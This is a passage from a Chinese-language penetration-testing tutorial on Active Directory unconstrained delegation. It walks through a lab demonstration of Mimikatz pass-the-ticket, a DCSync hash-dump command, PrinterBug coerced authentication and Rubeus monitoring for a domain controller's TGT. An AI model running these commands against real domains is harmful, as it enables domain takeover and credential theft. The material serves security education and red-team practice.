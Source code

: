 ![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331214823931.png)

（3）如上图所示，可以看到域管理员账户的高权限TGT票据 `[0;13a0f0]-2-0-60a10000-Administrator@krbtgt-PENTEST.COM.kirbi`，执行以下命令，通过 Mimikatz 传递该票据。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "kerberos::ptt [0;13a0f0]-2-0-60a10000-Administrator@krbtgt-PENTEST.COM.kirbi" exit
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/kiJduKsGxT3OVFE.png)
（4）再次尝试访问 DC01 的 C$ 共享，如下图所示，访问成功。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331184355745.png)

### Coerce Authentication

前文中介绍了非约束性委派攻击的一般利用方法，但是该方法必须由域管理员远程连接后留下高权限的 TGT 才能利用，因此显得有些鸡肋。不过我们配合 PrinterBug 等工具执行强制身份认证（Coerce Authentication），非约束性委派攻击助力。

Windows 中的 MS-RPRN（Print System Remote Protocol，打印系统远程协议）用于打印客户端和打印服务器之间的通信，支持客户端和服务器之间的同步打印和联机操作，包括打印任务控制以及打印系统管理。

MS-RPRN协议中定义的 RpcRemoteFindFirstPrinterChangeNotification API 可以创建远程修改通知对象，用于监控对打印机对象的修改，并向打印客户端发送修改通知。任何具备域用户权限的攻击者都可以滥用该方法来强迫运行打印服务（Print Spooler）的主机向攻击者选择的目标主机发起 Kerberos 或 NTLM 认证请求。

结合 PrinterBug，攻击者可以强制域控制器向配置了非约束性委派的主机发起 Kerberos 身份认证，并获取域控的高权限 TGT，该利用场景是 [@tifkin_](https://twitter.com/tifkin_)、[@enigma0x3](http://twitter.com/enigma0x3) 和 [@harmj0y](https://twitter.com/harmj0y) 在 2018 年的 DerbyCon 大会上提出的，并开发了一个概念性的工具 [SpoolSample](https://github.com/leechristensen/SpoolSample)。详情可以参考以下链接中的文章和视频：

- https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1
- https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/0_vqiYvTtZylwXe5zH.png)
下面我将对 PrinterBug 和非约束性委派结合的利用方法进行演示，相关利用工具如下。

（1）首先，通过 Marcus 用户登录域成员主机 WIN10-CLIENT1，尝试通过 DCSync 导出域内用户哈希，结果失败。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/ovGxJcZshtCTHVn.png)

（2）在 WIN10-CLIENT1 主机上通过本地管理员启动 [Rubeus](https://github.com/GhostPack/Rubeus) 监听，相关命令如下。

```console
C:\Users\Marcus\Desktop> Rubeus.exe monitor /interval:5 /filteruser:DC01$

# /interval:5 设置监听间隔5秒
# /filteruser 设置监听对象为我们的域控，注意后面有个$，如果不设置监听对象就监听所有的 TGT
```
